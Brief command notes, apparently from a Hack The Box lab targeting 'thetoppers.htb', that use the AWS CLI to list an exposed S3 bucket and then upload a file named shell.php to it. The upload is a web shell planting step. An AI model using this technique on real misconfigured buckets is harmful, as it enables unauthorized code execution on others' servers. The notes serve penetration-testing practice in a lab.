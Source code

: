 #### initial setup:
```
aws configure
```
#### list files:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
#### upload file:
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```